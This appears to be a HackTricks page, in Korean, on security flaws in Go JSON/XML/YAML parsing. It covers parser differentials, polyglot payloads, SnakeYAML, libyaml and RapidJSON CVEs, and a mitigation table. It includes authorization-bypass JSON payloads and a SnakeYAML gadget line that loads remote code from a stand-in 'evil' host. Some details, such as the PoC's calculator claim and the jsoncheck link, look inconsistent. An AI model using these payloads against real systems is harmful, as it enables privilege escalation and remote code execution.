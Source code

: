 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

다음 문제는 Go JSON에서 발견되었지만 다른 언어에서도 존재할 수 있습니다. 이러한 문제는 [**이 블로그 게시물**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/)에 게시되었습니다.

Go의 JSON, XML 및 YAML 파서는 **인증 우회**, **권한 상승** 또는 **민감한 데이터 유출**을 악용할 수 있는 오랜 불일치 및 불안전한 기본값의 흔적을 가지고 있습니다.


### (Un)Marshaling Unexpected Data

목표는 공격자가 민감한 필드(예: `IsAdmin`, `Password`)를 읽거나 쓸 수 있도록 허용하는 구조체를 악용하는 것입니다.

- Example Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- 일반적인 취약점

1. **누락된 태그** (태그 없음 = 필드는 기본적으로 여전히 구문 분석됨):
```go
type User struct {
Username string
}
```
페이로드:
```json
{"Username": "admin"}
```
2. **`-`의 잘못된 사용**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
페이로드:
```json
{"-": true}
```
✔️ 필드가 (un)marshaled 되는 것을 차단하는 올바른 방법:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### 파서 차이점

목표는 서로 다른 파서가 동일한 페이로드를 다르게 해석하는 방식을 이용하여 인증을 우회하는 것입니다. 예를 들면:
- CVE-2017-12635: 중복 키를 통한 Apache CouchDB 우회
- 2022: XML 파서 불일치를 통한 Zoom 0-click RCE
- GitLab 2025 SAML 우회 via XML quirks

**1. 중복 필드:**
Go의 `encoding/json`은 **마지막** 필드를 취합니다.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
다른 파서(예: Java의 Jackson)는 **첫 번째**를 선택할 수 있습니다.

**2. 대소문자 구분 없음:**
Go는 대소문자를 구분하지 않습니다:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
유니코드 트릭도 작동합니다:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. 크로스 서비스 불일치:**
상상해 보세요:
- Go로 작성된 프록시
- Python으로 작성된 AuthZ 서비스

공격자가 보냅니다:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python은 `UserAction`을 보고 허용합니다.
- Go는 `AdminAction`을 보고 실행합니다.


### 데이터 형식 혼란 (폴리글롯)

목표는 형식을 혼합하는 시스템(JSON/XML/YAML)을 악용하거나 파서 오류에서 열려 있는 상태로 실패하는 시스템을 악용하는 것입니다:
- **CVE-2020-16250**: HashiCorp Vault는 STS가 XML 대신 JSON을 반환한 후 XML 파서를 사용하여 JSON을 파싱했습니다.

공격자가 제어하는 것:
- `Accept: application/json` 헤더
- JSON 본문의 부분적 제어

Go의 XML 파서는 **어쨌든** 이를 파싱하고 주입된 신원을 신뢰했습니다.

- 조작된 페이로드:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
결과:
- **Go JSON** 파서: `Action_2` (대소문자 구분 없음 + 마지막 우선)
- **YAML** 파서: `Action_1` (대소문자 구분)
- **XML** 파서: 문자열 내에서 `"Action_3"`을 파싱

---

## 주목할 만한 파서 취약점 (2023-2025)

> 다음의 공개적으로 악용 가능한 문제들은 불안전한 파싱이 다국어 문제임을 보여줍니다 — 단순히 Go 문제만이 아닙니다.

### SnakeYAML 역직렬화 RCE (CVE-2022-1471)

* 영향 받는 버전: `org.yaml:snakeyaml` < **2.0** (Spring-Boot, Jenkins 등에서 사용됨).
* 근본 원인: `new Constructor()`가 **임의의 Java 클래스**를 역직렬화하여 원격 코드 실행으로 이어지는 가젯 체인을 허용합니다.
* 원라이너 PoC (취약한 호스트에서 계산기를 엽니다):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* 수정 / 완화:
1. **≥2.0으로 업그레이드** (기본적으로 `SafeLoader` 사용).
2. 이전 버전에서는 `new Yaml(new SafeConstructor())`를 명시적으로 사용.

### libyaml 이중 해제 (CVE-2024-35325)

* 영향: `libyaml` ≤0.2.5 (많은 언어 바인딩에서 활용되는 C 라이브러리).
* 문제: `yaml_event_delete()`를 두 번 호출하면 이중 해제가 발생하여 공격자가 이를 DoS로 전환하거나 일부 시나리오에서는 힙 악용으로 이어질 수 있음.
* 상태: 업스트림에서 “API 오용”으로 거부되었지만, 리눅스 배포판은 포인터를 방어적으로 null-free하는 패치된 **0.2.6**을 배포함.

### RapidJSON 정수 (언더|오버)-플로우 (CVE-2024-38517 / CVE-2024-39684)

* 영향: Tencent **RapidJSON** 커밋 `8269bc2` 이전 (<1.1.0-patch-22).
* 버그: `GenericReader::ParseNumber()`에서 체크되지 않은 산술 연산이 공격자가 큰 숫자 리터럴을 만들어 힙을 감싸고 손상시킬 수 있게 하여, 결과 객체 그래프가 권한 결정에 사용될 때 권한 상승을 가능하게 함.

---

### 🔐 완화 조치 (업데이트됨)

| 위험                                | 수정 / 권장 사항                                      |
|-------------------------------------|------------------------------------------------------------|
| 알 수 없는 필드 (JSON)               | `decoder.DisallowUnknownFields()`                          |
| 중복 필드 (JSON)                     | ❌ 표준 라이브러리에 수정 없음 — [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five)로 검증 |
| 대소문자 구분 없는 일치 (Go)         | ❌ 수정 없음 — 구조체 태그 검증 + 입력을 사전 정규화   |
| XML 쓰레기 데이터 / XXE              | 강화된 파서 사용 (`encoding/xml` + `DisallowDTD`)     |
| YAML 알 수 없는 키                   | `yaml.KnownFields(true)`                                   |
| **안전하지 않은 YAML 역직렬화**     | SafeConstructor 사용 / SnakeYAML ≥2.0으로 업그레이드            |
| libyaml ≤0.2.5 이중 해제            | **0.2.6** 또는 배포판 패치 릴리스로 업그레이드            |
| RapidJSON <패치된 커밋              | 최신 RapidJSON(≥2024년 7월)로 컴파일                  |

## 참조

- Baeldung – “SnakeYAML 2.0으로 CVE-2022-1471 해결하기”
- Ubuntu 보안 추적기 – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
